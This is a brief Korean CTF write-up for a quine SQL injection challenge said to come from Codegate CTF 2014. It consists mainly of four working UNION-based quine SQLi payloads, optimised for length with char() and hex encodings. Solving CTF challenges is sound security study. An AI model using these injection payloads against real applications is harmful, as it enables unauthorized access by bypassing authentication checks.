


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

***

# **Description**

# **Write-Up**

Quine SQLi를 사용하면 되는 문제로서, Codegate CTF 2014에 나왔다고 한다.

    ' union select replace(replace('" union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'" union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23

    55점 쿼리 : 'union select replace(replace('"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23

    235점 쿼리 : 'union select replace(replace('"union select replace(replace("$",0x22,0x27),0x24,"$")%23',0x22,0x27),0x24,'"union select replace(replace("$",0x22,0x27),0x24,"$")%23')%23

    250점 쿼리 : 'union select replace(replace('"union select replace(replace("%01",0x22,0x27),0x1,"%01")%23',0x22,0x27),0x1,'"union select replace(replace("%01",0x22,0x27),0x1,"%01")%23')%23